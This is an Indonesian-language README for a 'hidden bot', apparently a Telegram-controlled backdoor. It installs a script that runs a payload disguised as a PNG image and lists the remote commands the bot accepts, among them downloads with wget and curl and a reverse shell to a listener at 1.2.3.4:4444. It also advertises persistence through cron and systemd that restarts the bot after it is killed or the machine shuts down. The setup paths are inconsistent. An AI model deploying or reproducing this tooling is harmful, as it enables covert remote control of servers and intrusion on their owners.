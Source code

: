 # hidden bot


</h1>
<h4 align="center">command list</h4>

<p align="center">
    <img src="https://img.shields.io/badge/release-Prv8-blue.svg">
    <img src="https://img.shields.io/badge/issues-0-red.svg">
    <img src="https://img.shields.io/badge/php-7-green.svg">
    <img src="https://img.shields.io/badge/php-5-green.svg">
</p>

1️⃣ Buat file /usr/local/bin/dockerbot

Isi dengan:
```
#!/bin/bash
/sesuaikan/dengan/lokasi/botpng/default.png
```
2️⃣ Beri izin eksekusi

```
chmod 777 /tmp/img/dockerbot
```
3️⃣ menjalankan bot 

```
bash /tmp/img/dockerbot
```


```
apasaja yg bisa di jalankan di bot telegram 

perintah Linux apa saja, termasuk:

✅ ls -la → Menampilkan daftar file dengan detail.
✅ wget http://example.com/file → Mengunduh file dari internet.
✅ curl -O http://example.com/file → Alternatif download selain wget.
✅ ps aux → Melihat daftar proses.
✅ netstat -tulnp → Melihat koneksi jaringan.
✅ whoami && id → Cek user dan grup aktif.
✅ bash -i >& /dev/tcp/1.2.3.4/4444 0>&1 → Reverse shell ke listener.
✅ dan semua command linux 


🔥 Fitur systemd
✅ Monitoring bot setiap 5 menit menggunakan cronjob
✅ Jika bot mati, otomatis dijalankan ulang. otomatis
✅ Mengirim pesan saat bot mati (misalnya karena kill, CTRL+C, atau shutdown)

```
